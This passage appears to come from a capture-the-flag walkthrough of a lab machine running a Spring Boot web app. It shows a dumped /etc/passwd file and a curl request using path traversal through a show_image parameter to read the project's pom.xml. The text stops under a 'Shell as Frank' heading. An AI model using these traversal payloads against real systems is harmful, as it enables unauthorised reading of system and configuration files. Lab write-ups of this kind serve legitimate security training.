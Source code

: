 ```
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false

```

That worked. We have successfully triggered an LFI. Now, we can view files that we should not have access to through the victim machine's website, leveraging this vulnerability.


### Shell as Frank

After enumerating the system further, we discovered that it utilizes the Spring Framework.

```
elswix@parrot > curl -s 'http://10.129.35.222:8080/show_image?img=../../../pom.xml'

<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
```